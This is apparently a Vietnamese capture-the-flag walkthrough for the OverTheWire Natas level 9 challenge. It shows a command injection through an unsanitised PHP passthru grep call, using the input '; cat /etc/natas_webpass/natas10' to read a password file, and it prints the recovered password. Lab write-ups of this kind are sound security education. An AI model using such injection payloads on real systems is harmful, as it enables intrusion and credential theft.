 # Natas Level 8 → Level 9

Username: natas9

URL:http://natas9.natas.labs.overthewire.org

# Solution

Truy cập URL: 

![img](https://github.com/DucThinh47/OverTheWire/blob/main/Natas/images/image45.png?raw=true)

Click View sourcecode: 

![img](https://github.com/DucThinh47/OverTheWire/blob/main/Natas/images/image46.png?raw=true)

Nhìn vào code, có thể thấy đoạn PHP xử lý input có vấn đề bảo mật: ***passthru("grep -i $key dictionary.txt")*** thực thi trực tiếp lệnh shell mà không có bất kỳ biện pháp kiểm tra nào. Điều này dẫn đến Command Injection.

Cụ thể lệnh này sẽ search từ khóa nhập vào trong dictionary.txt, nhưng nếu nhập ***; cat /etc/natas_webpass/natas10*** thì lệnh có thể sẽ trở thành ***grep -i ; cat /etc/natas_webpass/natas10 dictionary.txt***.

Nhập ***; cat /etc/natas_webpass/natas10*** và click search: 

![img](https://github.com/DucThinh47/OverTheWire/blob/main/Natas/images/image47.png?raw=true)

=> Password natas10: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu